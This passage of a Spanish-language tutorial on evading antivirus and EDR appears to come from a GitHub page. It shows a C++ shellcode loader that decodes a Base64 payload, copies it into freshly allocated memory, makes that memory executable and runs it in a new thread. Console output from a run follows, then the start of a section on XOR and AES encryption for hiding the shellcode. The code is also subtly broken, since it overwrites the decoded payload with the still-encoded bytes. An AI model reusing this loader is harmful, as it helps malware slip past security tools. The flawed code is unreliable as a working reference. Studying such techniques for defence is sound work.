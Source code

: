 ```c++
	printf("\n [VirtualAlloc] of new moemory region %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	outLenb64 = DecodeBase64((const BYTE *)calc_payload, payload_len, (char *) exec_mem, payload_len);
	printf("\n Decoded payload output length %d\n", (void *)outLenb64);
	printf("\n Decoded payload memory position Base64 0x%-016p\n", &outLenb64);
	getchar();
	printf(" [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, calc_payload, payload_len);
	printf(" [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	getchar();
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf(" [CreateThread] Exec stored payload \n");
	getchar();
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}


```
Salida de la ejecución del proceso:
```
Sotred payload in .data section payload addr         : 0x00007FF6F20CD000

 [VirtualAlloc] of new moemory region exec_mem addr        : 0x0000017694DA0000

 Decoded payload output length 276

 Decoded payload memory position Base64 0x0000002AF52FF938

 [RtlMoveMemory] copy data
 [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ

 [CreateThread] Exec stored payload
```
 

## Encriptación
En el proceso de estudio de las medidas de evasión para realizar el bypass de un AV o un EDR, se realizarán dos tipos diferentes de encriptación simétrica. 

```c++
XOR
AES
```
Esto implica que para poder desencriptar el shellcode e inyectarlo en memoria en tiempo de ejecución será necesario que el código fuente contenga la clave de cifrado :
